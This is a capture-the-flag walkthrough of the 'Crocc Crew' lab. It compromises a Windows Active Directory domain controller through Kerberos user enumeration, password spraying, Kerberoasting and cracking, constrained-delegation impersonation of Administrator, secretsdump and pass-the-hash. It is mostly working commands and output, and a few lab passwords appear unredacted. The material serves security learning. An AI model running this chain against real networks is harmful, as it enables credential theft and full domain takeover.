


# Crocc Crew:

## Typology:

+ _Windows Active Directory_

We started by enumerating the ports:
```bash
nmap -sC -sV -p- 10.10.226.144

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-05 12:45:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.COOCTUS.CORP
| Not valid before: 2024-01-04T12:36:33
|_Not valid after:  2024-07-05T12:36:33
| rdp-ntlm-info: 
|   Target_Name: COOCTUS
|   NetBIOS_Domain_Name: COOCTUS
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: COOCTUS.CORP
|   DNS_Computer_Name: DC.COOCTUS.CORP
|   Product_Version: 10.0.17763
|_  System_Time: 2024-01-05T12:46:11+00:00
|_ssl-date: 2024-01-05T12:46:51+00:00; +5s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
meanwhile we use _"enum4linux-ng"_ to retrieve more informations:
```bash
enum4linux-ng.py 10.10.226.144

ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.10.226.144
[*] Username ......... ''
[*] Random Username .. 'gcsysinp'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.10.226.144    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.10.226.144    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: COOCTUS.CORP

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.10.226.144    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.10.226.144    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ============================================================
|    Domain Information via SMB session for 10.10.226.144    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                                                                   
NetBIOS domain name: COOCTUS                                                                                                                                                                                                                
DNS domain: COOCTUS.CORP                                                                                                                                                                                                                    
FQDN: DC.COOCTUS.CORP                                                                                                                                                                                                                       
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: COOCTUS                                                                                                                                                                                                                     

 ==========================================
|    RPC Session Check on 10.10.226.144    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 10.10.226.144    |
 ====================================================
[+] Domain: COOCTUS
[+] Domain SID: S-1-5-21-2062199590-3607821280-2073525473
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.10.226.144    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 ======================================
|    Users via RPC on 10.10.226.144    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.10.226.144    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.10.226.144    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.10.226.144    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.10.226.144    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 16.54 seconds
```

Summarize:

- _There is a 80 open port_

- _We retrieve the domain, dns and FQDN names: COOCTUS, COOCTUS.CORP, DC.COOCTUS.CORP. We can write it in the __"/etc/hosts"__ file_

We can go on and browse the webpage:


The most interesting things are the nicknames below the image, we select it and set them aside for later.

We continue by enumerating the directory with the following command:
```bash
feroxbuster -u http://10.10.226.144/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf,git -t 100
```
Output:
```bash
200      GET        0l        0w  5342323c http://10.10.226.144/index.html
200      GET        5l        6w       70c http://10.10.226.144/robots.txt
200      GET       20l       38w      529c http://10.10.226.144/backdoor.php
```
The most interesting are: 

1. _Robots.txt with the following content:_
	```
	/robots.txt
	/db-config.bak
	/backdoor.php 
	```
2. _Backdoor.php, a fake terminal beacuse no one command seems to work:_

the __"/db-config.bak"__ has some weird credentials (servername:db.cooctus.corp user:C00ctusAdm1n, pass:REDACTED)for an hypothetical db login.

At this point, the last thing to do is to use the nicknames, insert in a .txt and try it against Kerberos:
```bash
kerbrute userenum -d COOCTUS --dc 10.10.226.144 userlist

2024/01/05 14:50:44 >  [+] VALID USERNAME:       varg@COOCTUS
2024/01/05 14:50:44 >  [+] VALID USERNAME:       cryillic@COOCTUS
```
There are 2 valid usernames we try __"GetNPUsers.py"__:
```bash
GetNPUsers.py COOCTUS.CORP/  -usersfile userlist

[-] User cryillic doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User varg doesn\'t have UF_DONT_REQUIRE_PREAUTH set
```
We can also try some password spraying with __"CrackMapExec"__:
```bash
crackmapexec smb 10.10.226.144  -u 'cryillic' -p /usr/share/wordlists/rockyou.txt

[+] COOCTUS.CORP\cryillic:REDACTED
```
After a while, the password spraying works on cryillic but it doesn't on varg.

We proceed by enumerating the shares:
```bash
crackmapexec smb 10.10.94.232  -u 'cryillic' -p 'REDACTED' --shares

SMB         10.10.94.232    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.94.232    445    DC               [+] COOCTUS.CORP\cryillic:qwerty 
SMB         10.10.94.232    445    DC               [+] Enumerated shares
SMB         10.10.94.232    445    DC               Share           Permissions     Remark
SMB         10.10.94.232    445    DC               -----           -----------     ------
SMB         10.10.94.232    445    DC               ADMIN$                          Remote Admin
SMB         10.10.94.232    445    DC               C$                              Default share
SMB         10.10.94.232    445    DC               Home                            
SMB         10.10.94.232    445    DC               IPC$            READ            Remote IPC
SMB         10.10.94.232    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.94.232    445    DC               SYSVOL          READ            Logon server share
```
Nothing to see.

If we want have more information on the target DC we can use the cryillic's credentials against LDAP with __"ldapdomaindump"__:
```bash
ldapdomaindump 10.10.94.232 -u 'COOCTUS\cryillic' --authtype SIMPLE --no-json --no-grep -o ~/Desktop/tryhackme/crocc/Output
```
Output folder will contains several .htms with more information, the most interesting is __"domain_users_by_group.html"__ which it contains all users in DC and password-reset has this suspicious flag __"TRUSTED_TO_AUTH_FOR_DELEGATION"__ but we investigate later



We add this new users in a userlist and use it with Impacket:

- GetNPUsers.py: no results

- GetUserSPN.py: one hash
```bash
GetUserSPNs.py COOCTUS/cryillic  -usersfile userlist

$krb5tgs$23$*password-reset$COOCTUS.CORP$password-reset*$REDACTED
[-] Principal: David - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Ben - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: evan - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: varg - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: jon - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: kevin - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: paradox - Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Principal: yumeko - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: cryillic - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: karen - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Fawaz - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: admCroccCrew - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Howard - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Steve - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Spooks - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Jeff - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Mark - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Cooctus Guest - Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Principal: Visitor - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: mark - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```
password-reset user has an SPN set with the corresponding TGT, we can crack it with the following command:
```bash
echo "<password-reset hash>" > hash

john hash -w=/usr/share/wordlists/rockyou.txt
```

We have another creds, we can use it to enumerate shares:
```bash
crackmapexec smb 10.10.94.232  -u 'password-reset' -p 'REDACTED' --shares      
SMB         10.10.94.232    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.94.232    445    DC               [+] COOCTUS.CORP\password-reset:resetpassword 
SMB         10.10.94.232    445    DC               [+] Enumerated shares
SMB         10.10.94.232    445    DC               Share           Permissions     Remark
SMB         10.10.94.232    445    DC               -----           -----------     ------
SMB         10.10.94.232    445    DC               ADMIN$                          Remote Admin
SMB         10.10.94.232    445    DC               C$                              Default share
SMB         10.10.94.232    445    DC               Home                            
SMB         10.10.94.232    445    DC               IPC$            READ            Remote IPC
SMB         10.10.94.232    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.94.232    445    DC               SYSVOL          READ            Logon server share
```
Also this time there isn't nothing to see, several hours I was stuck looking around when I tried to use RDP with password-reset user and I wrong insert the password with the following results:
```bash
rdesktop -f -u password-reset -p REDACTED 10.10.94.232
```


Other Credentials to use also this time we check shares:
```bash
crackmapexec smb 10.10.94.232  -u 'REDACTED' -p 'REDACTED' --shares

SMB         10.10.94.232    445    DC               [+] Enumerated shares
SMB         10.10.94.232    445    DC               Share           Permissions     Remark
SMB         10.10.94.232    445    DC               -----           -----------     ------
SMB         10.10.94.232    445    DC               ADMIN$                          Remote Admin
SMB         10.10.94.232    445    DC               C$                              Default share
SMB         10.10.94.232    445    DC               Home            READ            
SMB         10.10.94.232    445    DC               IPC$            READ            Remote IPC
SMB         10.10.94.232    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.94.232    445    DC               SYSVOL          READ            Logon server share 
```
This time we have READ permission on Home share:
```bash
smbclient \\\\10.10.94.232\\Home -U REDACTED

smb: \> ls
  .                                   D        0  Tue Jun  8 21:42:53 2021
  ..                                  D        0  Tue Jun  8 21:42:53 2021
  user.txt                            A       17  Tue Jun  8 05:14:25 2021

                15587583 blocks of size 4096. 11428932 blocks available
smb: \> get user.txt 
```
We submit the first flag.

This time we had a very important flag in the previous file called __"domain_users_by_group.html"__ indeed password-reset user had an important flag __"TRUSTED_TO_AUTH_FOR_DELEGATION"__, first step is to understand which delegation is and against who, we can find it with the following command:
```bash
findDelegation.py COOCTUS.CORP/password-reset:REDACTED

AccountName     AccountType  DelegationType                      DelegationRightsTo                  
--------------  -----------  ----------------------------------  -----------------------------------
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS.CORP 
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP              
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC                           
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS      
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC/COOCTUS
```

so he has Constrained Delegation with protocol transition on several targets it's time to use internet and doing some researches:

- [Theory and exploiting](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/constrained)

- [Right Usage](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/)

First link explain the theory and the relative exploitation via __"getST.py"__, the second link has better explanation for the usage.

So we can use the following command:
```bash
getST.py -spn oakley/DC.COOCTUS.CORP  -dc-ip 10.10.94.232  -impersonate Administrator COOCTUS/password-reset:REDACTED

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

_We have the .ccache file, we must save in __"KRB5CCNAME"__ and use it:_
```bash
export KRB5CCNAME = Administrator.cchace

secretsdump.py -k DC.COOCTUS.CORP
```
We can dump the Administrator's NTLM hash and use it to enter via winrm and retrieve all flags that are in \Shares and \PerfLogs folder.
